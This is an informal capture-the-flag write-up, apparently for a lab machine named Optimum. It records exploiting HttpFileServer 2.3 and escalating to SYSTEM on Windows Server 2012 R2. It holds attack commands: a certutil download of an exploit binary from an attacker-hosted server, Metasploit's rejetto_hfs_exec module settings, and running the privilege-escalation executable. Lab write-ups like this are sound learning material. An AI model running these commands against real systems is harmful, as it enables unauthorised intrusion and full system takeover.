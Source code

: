# OPTIMUM

HttpFileServer 2.3

Found this exploit 
```
https://www.exploit-db.com/exploits/49584
```

we have a shell here and the user.txt as we are
```
optimum\kostas S-1-5-21-605891470-2991919448-81205106-1001
```

systeminfo give us : OS Name: Microsoft Windows Server 2012 R2 Standard
so we now know we can use this exploit 
```
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
```
download it with 
```
certutil -urlcache -split -f "http://10.10.14.28:8000/41020.exe" 41020.exe
```

unfortunately using it with our shell doesnt work 

fuck it lets go to msfconsole
```
search HttpFileServer
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.10.10.8
set lhost 10.10.14.28
exploit 
ctrl + z
upload 41020.exe
41020.exe
```
```
C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

i dont know why this is not working with my other shell
